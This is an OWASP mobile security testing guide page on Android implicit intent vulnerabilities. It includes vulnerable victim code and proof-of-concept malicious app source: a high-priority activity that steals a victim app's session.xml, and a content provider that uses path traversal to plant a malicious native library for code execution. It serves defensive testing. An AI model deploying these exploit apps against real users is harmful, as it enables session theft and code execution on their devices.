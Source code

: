# [MASTG-TEST-0026: Testing Implicit Intents](https://mas.owasp.org/MASTG/tests/android/MASVS-CODE/MASTG-TEST-0026/)
## Overview
When testing for implicit intents you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.
MASVS-CODE-4 / MSTG-PLATFORM-2 / May 08, 2023

## Implementation

An application was created that, after login, allows users to add a credit card. The `AddCardActivity` has the following intent configuration:

```java 
<activity
    android:name=".AddCardActivity"
    android:exported="false" >
    <intent-filter>
        <action android:name="com.victim.ADD_CARD_ACTION" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>

```

For the exploit, the guide cited in OWASP has followed https://blog.oversecured.com/Interception-of-Android-implicit-intents. 

In summary, another app was created with the same intent name as the victim's app but with higher priority. Consequently, when the intent is launched, the app with higher priority will intercept it.

## Static Analysis
Inspect the Android Manifest and look for any <intent> signatures defined inside blocks ↗ (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following Intent doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action android.intent.action.GET_CONTENT to ask the user for input data and then the app starts the intent by startActivityForResult and specifying an image chooser.

```
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```
The app uses `startActivityForResult `instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents).

## Case 1: Arbitrary File Read¶
In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname> `due to the improper validation of the return value of the intent.

The performAction method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling getExternalCacheDir or `getExternalFilesDir` an attacker can read this file if he sets the permission` android.permission.READ_EXTERNAL_STORAGE`.
```
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}```
The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```
EvilContentActivity.java
```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```
If the user selects the malicious app to handle the intent, the attacker can now steal the session.xml file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.
```
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```
## Case 2: Arbitrary Code Execution¶
An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a ContentProvider that contains public `Cursor query(...)` to set an arbitrary file (in this case lib.so), and if the victim loads this file from the content provider by executing copy the attacker's `ParcelFileDescriptor` openFile(...) method will be executed and return a malicious fakelib.so.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```
EvilContentProvider.java

```
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```
EvilContentActivity.java

```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```
